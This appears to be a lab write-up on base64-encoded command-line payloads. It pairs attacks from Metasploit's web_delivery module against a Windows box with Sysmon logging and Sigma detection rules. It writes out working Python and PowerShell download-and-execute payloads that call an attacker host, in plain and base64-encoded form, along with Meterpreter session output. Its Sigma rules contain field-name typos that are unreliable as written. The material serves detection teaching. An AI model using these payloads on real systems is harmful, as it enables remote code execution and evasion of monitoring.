





<h3>Base64 encoded command line</h3>

<hr>
<h4>Summary:</h4>

At this document we will explore deffirent types of base64 encoded payloads which runs in command line.

We will mention the both red and blue parts so we will use two boxes Kali box and windows with sysmon.


<h4>Lab Setup</h4>

KALI

We will use metasploit module **exploit/multi/script/web_delivery**, We need to configure two options on it.

* Payload -- meterpreter [LHOST - LPORT]

* Target -- [python, PHP, Powershell, binary]

WINDOWS

We will install Sysmon, Configure it with the default configuration, We just need process create **sysmon_id:1**

```shell
Sysmon64.exe -c --
```


We will test different targets like Python, PHP, Powershell, etc.

## Python ##

#### Attacker "Kali" ####

As we mentioned before we used Metasploit web_delivery module to test those scenarios, below a snap from Python configuration



* Python Code for delivery, To be run on CMD -- `Before Encoding` 

```python
u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.1.5:8080/XPVc7E0FBAgho');exec(r.read());
```

* Encoding the previous payload as Base64 - UTF-8 - for windows

  ```python
  dT1fX2ltcG9ydF9fKCd1cmxsaWInK3syOicnLDM6Jy5yZXF1ZXN0J31bc3lzLnZlcnNpb25faW5mb1swXV0sZnJvbWxpc3Q9KCd1cmxvcGVuJywpKTtyPXUudXJsb3BlbignaHR0cDovLzE5Mi4xNjguMS41OjgwODAvWFBWYzdFMEZCQWdobycpO2V4ZWMoci5yZWFkKCkpOw==
  ```

* Python Endoded Payload, To be run on CMD -- ``After Encoding``

```python
python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('ENCODED-PAYLOAD')))"
```


#### Victim "Windows"

* run the encoded payload in cmd and from the attacker machine we get the shell session openned

```shell
[*] 192.168.1.6      web_delivery - Delivering Payload (450) bytes
[*] Sending stage (53755 bytes) to 192.168.1.6
[*] Meterpreter session 3 opened (192.168.1.5:2244 -> 192.168.1.6:8325) at 2020-06-18 19:52:26 +0200
```

* Open Sysmon logs from Windows Event Viewer under `Applications and Service Logs > Microsoft > Windows > Sysmon > Operational`

  


## Detection:

To cover this type of execution we need to check in CommandLine for two things

* `Before Encoding` CommandLine|base64offset|contains: ' exec' AND CommandLine: 'python*'.

* `After Encoding` CommandLine: 'base64' OR 'b64decode' 

  

  ### Sigma Rule:

  ```yaml
  title: Encoded Python Code in cmd
  status: experimental
  description: Detects a base64 encoded exec keyword and plan python keyword in a process command line
  author: Khanafeer
  date: 2020/07/10
  tags:
      - attack.T1001
      - attack.execution
      - attack.defense_evasion
  logsource:
      category: process_creation
      product: sysmon
  detection:
      selection:
          EventID: 1
      Keywords:
          CommandLine|base64offset|contains: 'exec'
          CommandLine|contains: python
      Filters:
          ComandLine|contains:
            - b64decode
            - base64
      condition: selection AND Keywords AND Filters
  fields:
      - CommandLine
      - ParentCommandLine
  falsepositives:
      - unknown
  level: critical
  ```
  
  


# PowerShell

#### Attacker 

On the web delivery target  choose `PSH` but this time choose window/m

* Powershell delivery payload

  ```powershell
  [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$b=new-object net.webclient;if([System.Net.WebProxy]::GetDefaultProxy().address -ne $null){$b.proxy=[Net.WebRequest]::GetSystemWebProxy();$b.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;};IEX ([System.Text.Encoding]::ASCII.GetString($b.downloaddata('http://192.168.1.5:8080/fe0crH2HjG5NRh')));
  ```

  

* Encoded payload command base64  utf-16LE

  ```powershell
  powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABiAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAOwBpAGYAKABbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBQAHIAbwB4AHkAXQA6ADoARwBlAHQARABlAGYAYQB1AGwAdABQAHIAbwB4AHkAKAApAC4AYQBkAGQAcgBlAHMAcwAgAC0AbgBlACAAJABuAHUAbABsACkAewAkAGIALgBwAHIAbwB4AHkAPQBbAE4AZQB0AC4AVwBlAGIAUgBlAHEAdQBlAHMAdABdADoAOgBHAGUAdABTAHkAcwB0AGUAbQBXAGUAYgBQAHIAbwB4AHkAKAApADsAJABiAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgAuAGQAbwB3AG4AbABvAGEAZABkAGEAdABhACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANQA6ADgAMAA4ADAALwBmAGUAMABjAHIASAAyAEgAagBHADUATgBSAGgAJwApACkAKQA7AA==
  ```

  When running the encoded command above it will open the meterpreter session as shown below

  ```powershell
  [*] 192.168.1.6      web_delivery - Delivering Payload (3024) bytes
  [*] Sending stage (336 bytes) to 192.168.1.6
  [*] Command shell session 5 opened (192.168.1.5:3344 -> 192.168.1.6:1068) at 2020-06-18 23:44:31 +0200
  ```


To run encoded command on powershell you have many different ways

* using encodedCommand parameter [`-EncodedCommand`  , `-enc` or `-e`]

* using FromBase64String

  ```powershell
   $PAYLOAD = "Base64Text"
   $Encoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($PAYLOAD))
   powershell.exe $Encoded
  ```

  


#### Victim "Windows"

First way of running the encoded payload using -e parameter the payload will apear in the commandLine



Second Method will show three seperated events one for the $PAYLOAD,  $Encoded and finally the decoded payload below.




## Detection:

To detect this type of evasion, we need to check in CommandLine for multiple keywords as below

* keywords for encoded command parameter [`-EncodedCommand`  , `-enc` and `-e`]
* FromBase64String Keyword
* Finally, We will check for multiple  Encoded powershell code snippets like [ `IEX` , `I.E.` , `{`]


#### Sigma Rule 

```yaml
title: Powershell Encoded Command
status: experimental
description: Detects suspicious PowerShell encoded command
tags:
    - attack.T1001
author: Khanafeer
date: 2020/7/10
logsource:
    product: windows
    service: sysmon
detection:
    selection:
      commanLine|contains:
          - ' -enc '
          - ' -EncodedCommand '
          - ' -e '
          - 'FromBase64String'
      commandLine|contains:
          - 'JAB'
          - 'TVq'
          - 'UEs'
          - 'SUVY'
          - 'SQBFAF'
          - 'SQBuAH'
          - 'PAA'
          - 'cwBhA'
          - 'aWV4'
          - 'aQBlA'
          - 'R2V0'
          - 'dmFy'
          - 'dgBhA'
          - 'dXNpbm'
          - 'H4sIA'
          - 'Y21k'
          - 'Qzpc'
          - 'Yzpc'
          - 'ey'
          - 'IAB'
    condition: selection
falsepositives:
    - Penetration tests
level: high
```

